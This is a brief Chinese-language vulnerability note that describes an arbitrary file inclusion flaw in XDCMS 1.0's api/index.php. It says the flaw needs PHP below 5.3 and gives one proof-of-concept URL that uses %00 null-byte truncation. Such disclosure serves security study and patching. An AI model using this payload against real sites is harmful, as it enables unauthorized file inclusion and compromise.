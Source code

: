 ```yaml
---
title: "XDCMS 1.0 任意文件包含漏洞"
id: zhfly3277
---
```


# XDCMS 1.0 任意文件包含漏洞

## 一、漏洞简介

要求PHP版本小于5.3，否则无法使用%00截断

## 二、漏洞影响

XDCMS 1.0

## 三、复现过程

漏洞文件：`api\index.php`

![image](../img/089914149bb3241de69e6b55dbb8ed75.png)

![image](../img/6ffe08166b8720056665a4a0e0742dfd.png)

安全过滤函数 发生鸡肋

很明显 %00截断

```
http://www.0-sec.org/api/index.php?c=xxxxxx%00dama.php 
```